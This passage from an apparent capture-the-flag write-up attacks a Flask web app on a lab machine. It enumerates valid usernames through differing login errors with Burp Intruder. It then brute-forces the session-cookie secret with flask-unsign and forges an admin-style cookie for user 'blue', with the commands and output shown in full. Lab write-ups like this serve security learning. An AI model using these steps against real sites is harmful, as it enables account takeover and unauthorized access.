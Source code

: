 ```bash
    <script src="//cdn.ckeditor.com/4.6.2/basic/ckeditor.js"></script>
    <script type="text/javascript">
      CKEDITOR.replace('editor')
    </script>
```

After some enumeration I finally found that the login validates if the username is correct or not. Trying to login with an invalid user gives the error `Invalid credentials`, however trying a valid user and wrong password gives `Invalid login`. 

With this information we send the login to Burp Intruder, add the two strings to "Grep - Match" and brute force the user using Burp built-in Usernames list. 

![[Pasted image 20220519124126.png]]

Admin is my registered user, however `blue` is not - we found a valid user!


### Step 2
Next we need to find the credentials for user `blue`, we can try to brute force the login which would cause a lot of noice, but we can also try to to crack the JWT (as it's HMAC).

![[Pasted image 20220523090302.png]]

Running `webanalyze` we find that Flask is running on the backend. Reading through HackTricks about Flask we find the tool `Flask-Unsign` which is used to fetch, decode, brute-force and craft session cookies of Flask applications - perfect!

```bash
➜  webanalyze ./webanalyze -host http://10.10.11.160:5000
http://10.10.11.160:5000 (0.1s):
    Bootstrap,  (UI frameworks)
    Flask, 2.0.2 (Web frameworks, Web servers)
    Python,  (Programming languages)
    Python, 3.8.10 (Programming languages)
```

```bash
➜  noter flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZiJ9.YosnvA.92mU6dpP4-5opRXc6h2EhLq8hVI'
{'logged_in': True, 'username': 'asdf'}

➜  noter flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZiJ9.YosnvA.92mU6dpP4-5opRXc6h2EhLq8hVI' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'asdf'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'

➜  noter flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'                                                   
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yos0Lw.Lp1b4zGs-GrDuPvgxv2kkkC3qzE
```
